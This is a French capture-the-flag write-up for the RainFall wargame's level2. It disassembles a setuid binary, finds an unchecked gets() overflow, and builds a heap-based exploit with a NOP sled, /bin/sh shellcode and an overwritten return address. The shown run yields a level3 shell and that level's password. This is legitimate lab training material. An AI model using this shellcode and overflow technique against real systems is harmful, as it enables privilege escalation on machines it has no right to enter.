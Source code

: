 # Level2
```
-rwsr-s---+ 1 level3 users  5403 Mar  6  2016 level2
level2@RainFall:~$ ./level2
coucou
coucou
```
executable présent dans le repertoire qui ecris sur la sortie standard l'input entre. Passons le programme a gdb.

```
Dump of assembler code for function main:
   0x0804853f <+0>:	push   %ebp
   0x08048540 <+1>:	mov    %esp,%ebp
   0x08048542 <+3>:	and    $0xfffffff0,%esp
   0x08048545 <+6>:	call   0x80484d4 <p>
   0x0804854a <+11>:	leave
   0x0804854b <+12>:	ret
End of assembler dump.
(gdb) disas p
Dump of assembler code for function p:
   0x080484d4 <+0>:	push   %ebp
   0x080484d5 <+1>:	mov    %esp,%ebp
   0x080484d7 <+3>:	sub    $0x68,%esp
   0x080484da <+6>:	mov    0x8049860,%eax
   0x080484df <+11>:	mov    %eax,(%esp)
   0x080484e2 <+14>:	call   0x80483b0 <fflush@plt>
   0x080484e7 <+19>:	lea    -0x4c(%ebp),%eax
   0x080484ea <+22>:	mov    %eax,(%esp)
   0x080484ed <+25>:	call   0x80483c0 <gets@plt>
   0x080484f2 <+30>:	mov    0x4(%ebp),%eax
   0x080484f5 <+33>:	mov    %eax,-0xc(%ebp)
   0x080484f8 <+36>:	mov    -0xc(%ebp),%eax
   0x080484fb <+39>:	and    $0xb0000000,%eax
   0x08048500 <+44>:	cmp    $0xb0000000,%eax
   0x08048505 <+49>:	jne    0x8048527 <p+83>
   0x08048507 <+51>:	mov    $0x8048620,%eax
   0x0804850c <+56>:	mov    -0xc(%ebp),%edx
   0x0804850f <+59>:	mov    %edx,0x4(%esp)
   0x08048513 <+63>:	mov    %eax,(%esp)
   0x08048516 <+66>:	call   0x80483a0 <printf@plt>
   0x0804851b <+71>:	movl   $0x1,(%esp)
   0x08048522 <+78>:	call   0x80483d0 <_exit@plt>
   0x08048527 <+83>:	lea    -0x4c(%ebp),%eax
   0x0804852a <+86>:	mov    %eax,(%esp)
   0x0804852d <+89>:	call   0x80483f0 <puts@plt>
   0x08048532 <+94>:	lea    -0x4c(%ebp),%eax
   0x08048535 <+97>:	mov    %eax,(%esp)
   0x08048538 <+100>:	call   0x80483e0 <strdup@plt>
   0x0804853d <+105>:	leave
   0x0804853e <+106>:	ret
End of assembler dump.
```

La fonction p utilisee dans le main possède la logique.
On voit qu'il y a une fonction gets, non sécurisée car un tableau de 76 char est alloué.


L'étude du retro-ingieniering dans ghidra nous informe d'une condition apres le gets. Cette condition compare le bit de poids fort de l'adresse de retour de la fonction gets, si l'adresse commence par "0xb" le programme s'arrete.
Nous ne pouvons donc pas reutiliser la methode utilisée au niveau inferieur car le buffer situé sur la stack aura son addresse qui commence par "0xb".

```
Breakpoint 2 at 0x80484f2
(gdb) c
Continuing.
AAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAAA

Breakpoint 2, 0x080484f2 in p ()
(gdb) x/100x $esp
0xbffff6c0:	0xbffff6dc	0x00000000	0x00000000	0xb7e5ec73
0xbffff6d0:	0x080482b5	0xbffff7d4	0xbffff8fc	0x41414141
0xbffff6e0:	0x41414141	0x41414141	0x41414141	0x41414141
```

On constate que si on ne fais pas de buffer overflow, le programme passe au puts et strdup. Car l'adresse de retour de la fonction n'est pas écrasée
("0x08048550")

Nous voyons que le tableau est alloué sur le tas avec strdup.

L'exploit va consister a faire executer notre shellcode sur le tas au lieu de la stack.
Grace a un breakpoint apres strdup nous trouvons une adresse ou nous pourrons rediriger le shellcode.

```
(gdb) x/100x $eax-100 <== eax designe l'adresse sur le tas
0x8049fa4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fb4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fc4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fd4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049fe4:	0x00000000	0x00000000	0x00000000	0x00000000
0x8049ff4:	0x00000000	0x00000000	0x00000000	0x00000000
0x804a004:	0x00000051	0x41414141	0x41414141	0x41414141
0x804a014:	0x41414141	0x41414141	0x41414141	0x41414141 <== adresse utilisee
```

```
level2@RainFall:~$ python -c 'print "\x90"*40 + "\x31\xc0\x50\x68\x2f\x2f\x73\x68\x68\x2f\x62\x69\x6e\x89\xe3\x31\xc9\x89\xca\x6a\x0b\x58\xcd\x80" + "A"*(79-40-23) + "\x14\xa0\x04\x08"' > /tmp/payload
level2@RainFall:~$ cat /tmp/payload - | /home/user/level2/level2
????????????????????????????????????????1?Ph//shh/bin??1ɉ?j
                                                           X̀AAAAAAAAAAAA?
id
uid=2021(level2) gid=2021(level2) euid=2022(level3) egid=100(users) groups=2022(level3),100(users),2021(level2)
cat /home/user/level3/.pass
492deb0e7d14c4b5695173cca843c4384fe52d0857c2b0718e1a521a4d33ec02
```